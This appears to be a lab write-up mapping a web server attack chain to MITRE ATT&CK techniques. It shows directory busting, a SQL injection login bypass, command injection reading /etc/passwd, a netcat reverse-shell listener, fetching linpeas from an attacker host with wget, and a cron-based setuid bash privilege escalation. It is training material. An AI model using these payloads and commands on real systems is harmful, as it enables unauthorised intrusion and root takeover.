

# Web Server Attack Scenarios (mapped to MITRE ATT&CK)
<u>**Passwords and hashes have been concealed to retain confidentiality.**</u>

## <u>Directory Busting</u>
- **Techniques:** T1595.003 (Active Scanning: Wordlist Scanning)
- **Procedure:**

`feroxbuster -u http://192.168.25.142 -w /usr/share/wordlists/dirbuster/directory-list.txt`
{ loading=lazy }

## <u>SQL Injection</u>
- **Techniques:** T1190 (Exploit Public-Facing Application)
- **Procedure:**

`admin' OR '1'='1--`
{ loading=lazy }
{ loading=lazy }

## <u>Command Injection</u>
- **Techniques:** T1059.004 (Command and Scripting Interpreter: Unix Shell)
- **Procedure:**

`127.0.0.1 && cat /etc/passwd`
{ loading=lazy }
{ loading=lazy }

## <u>Reverse Shell</u>
- **Techniques:** T1505.003 (Server Software Component: Web Shell)
- **Procedure:**

`nc -nvlp 9001`
{ loading=lazy }
{ loading=lazy }
{ loading=lazy }

## <u>Download Linpeas</u>
- **Techniques:** T1105 (Ingress Tool Transfer)
- **Procedure:**

`python -m http.server 80`
`wget http://192.168.25.130:80/linpeas.sh`
{ loading=lazy }
{ loading=lazy }

## <u>Execute Linpeas</u>
- **Techniques:** T1082 (System Information Discovery)
- **Procedure:**

`./linpeas.sh`
{ loading=lazy }

## <u>Escalate Privileges Through Cronjob</u>
- **Techniques:** T1053.003 (Scheduled Task/Job: Cron) T1548.001 (Abuse Elevation Control Mechanism: Setuid/Setgid)
- **Procedure:**

`echo 'cp /bin/bash /home/bash; chmod +s /home/bash' > /home/report.sh`
`./home/bash -p`
{ loading=lazy }

